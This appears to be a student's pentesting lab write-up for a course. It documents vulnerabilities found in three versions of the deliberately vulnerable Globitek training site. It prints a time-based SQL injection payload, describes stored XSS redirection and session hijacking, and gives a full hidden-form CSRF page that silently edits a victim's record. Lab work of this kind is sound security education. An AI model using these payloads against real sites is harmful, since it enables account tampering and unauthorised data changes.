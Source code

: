 # Project 8 - Pentesting Live Targets

Time spent: **4** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: Session Hijacking
	<img src="https://i.imgur.com/1g4prFK.gif"/>
	* The session ID is found from the chrome developer tools console. 
	* The attacker changes the session ID using the provided change_session_id.php.
	* The attacker is now able to access the victims session.

Vulnerability #2: SQL Injection
	<img src="https://i.imgur.com/3keNk4f.gif" />
	* The exploit exists in the salesperson.php page.
	* The exploit is done via the url. 
	* Using the given ```' OR SLEEP(5)=0--'``` statement, the page proceeds to wait 5 seconds before returning.


## Green

Vulnerability #1: XSS
	<img src="https://i.imgur.com/wJbBp7O.gif"/>
	* This exploit is done via the feedback section. 
	* The XSS executes when a privileged user accesses the feedback page in the /staff/feedback/ section.


Vulnerability #2: User Enumeration
	<img src="https://i.imgur.com/EOH0sFs.gif"/>
	* Using the given username "jmonroe99" we can see that a valid username shows a bold error.
	* An incorrect username shows a not-bolded error.

Bonus: XSS
	<img src="https://i.imgur.com/zx8kPL7.gif"/>
	* This exploit is the same as the first XSS found.
	* The ```alert()``` statement is replaced with a ```window.location.assign()``` statement.

## Red

Vulnerability #1: CSRF
	<img src="https://i.imgur.com/WLeB4Gp.gif"/>
	* The attacker submits a malicious webpage into the feedback section.
	* The victim visits the url from the feedback.
	* The malicious webpage silently submits a form to the edit section of the victims page.
	``` <!DOCTYPE html>
		<html>
	<head>
		<title>Your Feedback</title>
		<script src="https://code.jquery.com/jquery-3.2.1.min.js"></script>
	</head>
	<body>

		<p> you should secure your site</p>
		<style>
		.hide-form {
			display: none;
		}
		</style>
		<form action="https://104.154.100.160/red/public/staff/salespeople/edit.php?id=7" method="POST" class="hide-form" id="attackform"  name="form">
			<input type="text" name="first_name" value="Not Samuel" /><br />
			<input type="text" name="last_name" value="Not Hunter" /><br />
			<input type="text" name="phone" value="111-222-3333" /><br />
			<input type="text" name="email" value="changed_your_email_again@attack.com" /><br />
		</form>
		<script>
		$(function() {
			console.log("loaded");
			window.document.forms[0].submit(function(e) {


				console.log("submitted");
			});
		});
		</script>
	</html>```

Vulnerability #2: User Enumeration
	<img src="https://i.imgur.com/7IZ8N9k.gif"/>
	* By directly changing the 'id' parameter in the URL we can find salespersons not mentioned on the page.
	* ID's 10 and 11 shouldn't be accessible by everyone. 


## Notes

Describe any challenges encountered while doing the work

